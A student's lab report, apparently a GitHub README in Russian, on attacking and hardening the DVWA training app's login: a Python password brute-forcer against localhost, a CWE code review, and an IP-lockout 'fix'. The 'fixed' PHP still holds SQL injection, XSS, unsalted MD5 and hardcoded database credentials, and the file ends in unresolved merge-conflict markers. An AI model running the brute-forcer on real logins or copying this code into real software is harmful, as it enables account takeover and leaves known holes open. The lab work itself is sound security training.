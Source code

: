 # Практическая работа №3
<h3> Задание №1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)</h3>

<p>Выполнено на языке программирования Python с использованием библиотеки requests. В качестве источника паролей был выбран готовый словарь с наиболее часто встречающимися паролями(common-passwords.txt). Разработанный алгоритм читает все пароли из файла и каждый из них поочередно подставляет в тело HTTP GET запроса. При успешном входе пользователь видит надпись "Welcome to the password protected area". Она и является определяющим фактором для разработанного решения</p>

    passwords = []

    with open("common-passwords.txt", "r", encoding='utf-8') as file:
        for password in file.readlines():
            if '\n' in password:
                passwords.append(password[:-1])
                continue

            passwords.append(password)
        
    cookies = {'PHPSESSID':'dha64hulcvldr08koooh0a8iqt', 'security': 'low'}

    for password in passwords:
        response = requests.get(url=f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={password}&Login=Login#', cookies=cookies)
        if 'Welcome to the password protected area' in response.text:
            print(f'Password: {password}')
            break

<h3>Задание №2. Проанализировать код и сделать кодревью, указав слабые места. 
Слабость уязвимого кода необходимо указать с использованием метрики 
CWE (база данных cwe.mitre.org)</h3>

    <?php
        if( isset( $_GET[ 'Login' ] ) ) {
        // Get username
        $user = $_GET[ 'username' ];
        // Get password
        $pass = $_GET[ 'password' ];
        $pass = md5( $pass );
        // Check the database
        $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . 
            ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = 
            mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
        if( $result && mysqli_num_rows( $result ) == 1 ) {
                // Get users details
                $row    = mysqli_fetch_assoc( $result );
                $avatar = $row["avatar"];
                // Login successful
                $html .= "<p>Welcome to the password protected area {$user}</p>";
                $html .= "<img src=\"{$avatar}\" />";
        }
        else {
                // Login failed
                $html .= "<pre><br />Username and/or password incorrect.</pre>";
        }
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }?>

<ol>
    <li>CWE-89. Возможно использование SQL инъекции при определении запроса $query. Как вариант решения проблемы - использование параметризированных запросов</li>
    <li>CWE-79. Не защищенный вывод. В выражениях вида $html .= "какой-то текст и разметка..." возникает уязвимость к XSS атакам - злоумыщленник может внедрить свой JavaScript код</li>
    <li>CWE-522. Пароли хранятся в недостаточно надежном виде - используется md5.</li>
    <li>CWE-20. Отсутствие валидации ввода. Необходимо обрабатывать введенные данные перед их использованием</li>
    <li>CWE-307. Отсутствие защиты от неудачных попыток входа. Предоставляет возможность, например, перебора паролей</li>
	<li>CWE-759. Хранение паролей без соли.  Лучше для каждого пользователя определять уникальное значение(соль), добавлять его к паролю и хэшировать. Таким образом, даже для пользователей с одинаковыми паролями хэши будут разными</li>
	<li>CWE-807. Использование ненадежных входных данных при принятии решения о безопасности</li>

</ol>

<h3>Задание №3. Разработать свою систему авторизации на любом языке, 
исключающий взможность подбора паролей разработнным 
переборщиком паролей в задании 1. Возможно исправление авторизации 
из dvwa.local. Требование - Система авторизации должна использовать запросы GET с 
параметрами, аналогичными из задания bruteforce dvwa
</h3>
<p>Для решения данной задачи в базе данных создана таблица "visits", содержащая в себе количество попыток входа для конкретного IP адреса, исходя из соображений, что после трех неуспешных попыток входа IP адрес не имеет доступ к ресурсу. При успешном же входе количество попыток обнуляется(если оно не привысило 3шт.), в противном же случае увеличивается</p>
<p>Для начала создадим соответствующую таблицу</p>

<pre>CREATE TABLE visits(
    id INT AUTO_INCREMENT,
    ip VARCHAR(16),
    count INT,
    PRIMARY KEY(id)
)
</pre>
<p>Теперь реализуем блокировку</p>
<p>
	
	if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];

	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	
	$ip = $_SERVER["REMOTE_ADDR"];
	
	$visits_q = "SELECT count FROM visits WHERE ip = '$ip';";
	$connection = new mysqli("localhost", "dvwa", "p@ssw0rd", "dvwa");
	
	$visits_count = 0;

	if($qres = $connection->query($visits_q)){
		$rows_count = $qres->num_rows;
		if ($rows_count == 0) {
			$insert_q = "INSERT INTO visits(ip, count) VALUES('$ip', 1);";
			$connection->query($insert_q);
			$visits_count = 1;
		}
		else {
			foreach($qres as $row){
				$visits_count = $row["count"];
				break;
			}
		}
	}

	if ($visits_count > 3) {
		$html .= "<p>Too many requests!</p>";
		//die();
	}
	else{
		if( $result && mysqli_num_rows( $result ) == 1 ) {
			// Get users details
			$row    = mysqli_fetch_assoc( $result );
			$avatar = $row["avatar"];
	
			// Login successful
			$html .= "<p>Welcome to the password protected area {$user}</p>";
			$html .= "<img src=\"{$avatar}\" />";
			$visits_count = 0;
		}
		else {
			//Login failed
			$html .= "<pre><br />Username and/or password incorrect.</pre>";
			$visits_count = $visits_count + 1;
		}
	
		
		$update_q = "UPDATE visits SET count = $visits_count WHERE ip = '$ip'";
		$connection->query($update_q);
	
		((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
	
	}

	}

</p>
<<<<<<< HEAD
![Alt text](https://github.com/fokypoky/BruteforceDVWA/blob/main/analyze-result.png?raw=true)
=======
<<<<<<< HEAD
![Alt text](https://github.com/fokypoky/BruteforceDVWA/blob/main/analyze-result.png?raw=true)
=======
![Alt text](.analyze-result.png)
>>>>>>> d75d07c8b338614161bc3f51d53c995e5d455cc8
>>>>>>> 4678b6a994378c4ae2bae52a3cd82eabf507f79c
